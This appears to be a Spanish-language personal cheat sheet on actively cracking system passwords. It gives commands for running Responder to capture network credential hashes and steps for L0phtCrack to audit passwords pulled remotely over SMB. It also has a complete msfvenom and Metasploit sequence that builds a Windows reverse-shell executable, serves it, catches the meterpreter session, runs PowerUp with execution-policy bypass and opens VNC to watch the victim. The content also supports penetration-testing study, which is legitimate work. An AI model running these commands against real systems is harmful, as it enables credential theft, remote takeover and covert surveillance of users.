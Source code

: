 # Active Attack to Crack the System's Password

Tags: #Hacking #SystemHacking #Responder #L0phtCrack #Exploit-DB 

## Exploit-DB

* [Exploit-DB](https://www.exploit-db.com/)

## Responder 

```bash 
❯ /home/Responder/logs       # Ruta en donde se almacenan los logs para ver los hashes de los usuarios 
```

```bash 
# Kali Tool 
❯ ./Responder.py -I eth0     # Es un servicio que se encuentra a la escucha de los diferentes protocolos como LLMR, NBT-NS, SMB, HTTP-Server, etc... esperando a que el usuario cometa un error buscando un recurso en la red que no existe. Esto con el fin de capturar los 'Hashes' de los usuarios para poder crackearlos offlinecon 'John The Ripper o Hashcat'
```

## L0phtCrack 

L0phtCrack es una **herramienta de auditoría y recuperación de contraseñas** (ahora llamada LC5), originalmente producida por Mudge de L0pht Heavy Industries. Es usada para verificar la debilidad de las contraseñas y algunas veces para recuperar las que se han olvidado o perdido en sistemas Microsoft Windows.

```bash 
# Windows Tool 
❯ L0phtCrack 7      # Ejecutar el programa 

Nota:
	1. Seleccionar 'Password Auditing Wizard'
	2. Seleccionar 'Windows Import From Remote Machine (SMB)', colocar las credenciales y el dominio valido en 'Use Specific User Credentials'
	3. Seleccionar 'Thorough Password Audit' 
	4. Marcar 'Generate Report at End of Auditing' en formato CSV y seleccionar la ubicación de descarga
	5. Al momento de dar click en 'Finish', el programa empezará a ejecutarse 
```

## Client-Side VNC Session 

```bash 
# Kali Tool 
❯ msfvenom -p windows/meterpreter/reverse_tcp --plataform windows -a x86 -f exe LHOST=IP LPORT=443 -o test.exe       # Crear un archivo malicioso 

❯ python3 -m http.server 80        # Crear un servidor para compartir el archivo 

❯ msfconsole -q 
	❯ use exploit/multi/handler   
	❯ options 
	❯ set LPORT 443
	❯ set LHOST IP
	❯ set payload windows/meterpreter/reverse_tcp
	❯ run 

❯ upload /home/PowerUP.ps1   # Cargar un archivo desde la maquna Kali en la sesión establecida con Meterpreter 
❯ shell                      # Crear una sesión Windows en Meterpreter 
	❯ powershell -ExecutionPolicy Bypass -Command . .\PowerUp.ps1;Invoke-AllChecks  # Ejecutar el archivo 'PowerUp.ps1'
	❯ exit 

❯ run vnc     # Crear un sesión de VNC en Meterpreter y sirve para visualizar lo que pasa en la maquina victima 
```

## Armitage 

```bash 
❯ 
❯ 
❯ 
```